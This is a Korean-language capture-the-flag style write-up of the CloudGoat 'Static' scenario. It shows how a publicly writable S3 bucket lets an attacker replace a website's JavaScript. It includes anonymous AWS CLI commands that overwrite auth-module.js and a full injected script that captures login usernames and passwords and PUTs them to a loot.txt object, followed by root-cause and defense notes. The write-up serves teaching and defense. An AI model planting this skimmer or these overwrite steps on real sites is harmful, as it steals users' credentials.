

# 09. Static

- 난이도: Moderate
- 핵심: Public Write가 가능한 S3의 JavaScript를 변조해 Website의 공급망을 장악합니다.
- 재현 상태: S3 Object 변조까지 확인. 관리자 Browser Bot 오류로 최종 입력 회수는 확인하지 못했습니다.

## Attack Path



## 1. Website Source에서 외부 Asset 찾기

```bash
TARGET_URL=<LAB_WEBSITE_URL>

curl -sS "$TARGET_URL" |
  rg 'script|s3.amazonaws.com'
```

`<script src="...">`가 가리키는 Bucket과 Object Key를 기록합니다. Browser는 외부 JavaScript를 페이지의 실행 문맥에서 실행하므로 DOM에 접근할 수 있습니다.

## 2. 익명 권한 검증

관리자 Profile이 아니라 서명하지 않은 요청으로 확인해야 실제 Public 권한을 구분할 수 있습니다.

```bash
aws s3 ls "s3://<LAB_BUCKET>/" --no-sign-request

aws s3 cp \
  "s3://<LAB_BUCKET>/auth-module.js" \
  - \
  --no-sign-request
```

목록과 읽기가 성공한 뒤, Scenario가 의도한 Source IP에서 `PutObject`도 허용되는지 Test Object로 확인합니다.

## 3. Lab JavaScript 변조

Scenario의 목표는 Login Form 입력을 Lab Bucket의 별도 Object로 기록하는 것입니다. 아래 Code는 CloudGoat가 만든 Bucket과 Test Form에만 사용합니다.

```javascript
window.addEventListener("load", () => {
  document.querySelector("#login-btn").addEventListener("click", () => {
    const labResult = JSON.stringify({
      username: document.querySelector("#username").value,
      password: document.querySelector("#password").value,
    });

    fetch("https://<LAB_BUCKET>.s3.amazonaws.com/loot.txt", {
      method: "PUT",
      body: labResult,
      keepalive: true,
    });
  });
});
```

정상 Object를 로컬에 보관한 뒤 Scenario Object를 교체합니다.

```bash
aws s3 cp \
  "s3://<LAB_BUCKET>/auth-module.js" \
  ./auth-module.original.js \
  --no-sign-request

aws s3 cp \
  ./lab-auth-module.js \
  "s3://<LAB_BUCKET>/auth-module.js" \
  --no-sign-request \
  --content-type application/javascript \
  --cache-control no-cache
```

```bash
curl -sS \
  "https://<LAB_BUCKET>.s3.amazonaws.com/auth-module.js"
```

변조된 Object가 응답하는 것까지 확인했습니다. 원본 실습에서는 관리자 Browser Bot이 정상 동작하지 않아 `loot.txt` 생성과 최종 목표값 회수는 검증하지 못했습니다.

## Root Cause

- Website가 S3의 JavaScript를 신뢰하고 실행했습니다.
- Bucket Policy가 익명 `s3:PutObject`를 허용했습니다.
- CORS도 Browser의 Write 요청을 허용했습니다.
- 실행 가능한 정적 Asset의 무결성을 검증하지 않았습니다.

## Defense

- Public Read가 필요해도 Public Write는 허용하지 않습니다.
- 배포 전용 Role만 특정 Prefix에 `PutObject`할 수 있게 합니다.
- S3 Versioning, Object 변경 Alarm과 CloudTrail Data Event를 사용합니다.
- CDN Origin Access Control, CSP와 Subresource Integrity를 요구사항에 맞게 적용합니다.
- 배포 Artifact의 Hash와 승인된 Pipeline을 검증합니다.

## Cleanup

Scenario가 `force_destroy`로 Bucket을 제거하기 전에 생성한 Test Object가 CloudGoat 관리 범위인지 확인합니다. 별도 Resource를 만들었다면 직접 제거한 뒤 `cloudgoat destroy`를 실행합니다.
